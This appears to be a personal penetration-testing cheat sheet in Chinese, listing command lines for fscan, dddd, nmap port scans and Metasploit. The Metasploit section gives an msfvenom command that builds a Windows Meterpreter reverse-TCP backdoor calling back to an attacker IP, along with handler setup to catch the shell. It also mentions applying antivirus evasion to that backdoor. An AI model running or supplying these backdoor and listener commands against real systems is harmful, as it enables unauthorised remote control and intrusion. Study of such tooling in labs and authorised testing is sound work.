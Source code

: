 ```yaml
---
aliases:
cssclasses:
tags:
icon: pen-to-square
date:
---
```

## fscan降速版
```fscan
./fscan -hf "big ip-lnut.txt" \
        -t 100 \               # 大幅降低线程数（默认600）
        -num 5 \               # 降低POC扫描速率（默认20）
        -wt 10 \               # 增加Web超时时间（默认5）
        -time 5 \              # 增加常规超时时间（默认3）
        -br 1 \                # 暴力破解线程设为1（默认1）
        -o "fscan_result.txt"  # 输出结果文件
```
## dddd可视化输出
```dddd
./dddd_linux64 -target "big ip.txt" -o "big ip.html"
```
## nmap
### nmap端口粗描
```nmap
sudo nmap -sT --min-rate 10000 -p- 10.129.40.36 -oA nmapscan/ports
```
### nmap端口详扫
```nmap
sudo nmap -sT -sV -sC -O -p80,135,445,1985 10.129.40.36 -oA nmapscan/detail
```
## msfconsole
### msf快捷键
ctrl+z将当前Meterpreter 会话收到后台
### msf生成后门(windows)
```msfconsole
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.123.23 LPORT=7788 -f raw -o shell.raw
```
- 注意：payload--windows/meterpreter/reverse_tcp为32位程序而payload---windows/x64/meterpreter/reverse_tcp​​为64位payload，在监听时要对应否则会导致连接秒断

对上面的后门进行免杀处理
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20251018201139.png)

### msf监听连接
```msf
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp 
set lhost 192.168.123.23 
set lport 444 
exploit -j  # 后台监听,不占用当前命令行
```
- 注意要设置payload
- 注意：`payload`--`windows/meterpreter/reverse_tcp`为`32`位程序而`payload`---`windows/x64/meterpreter/reverse_tcp​​`为64位`payload`，在监听时要对应否则会导致连接秒断

## 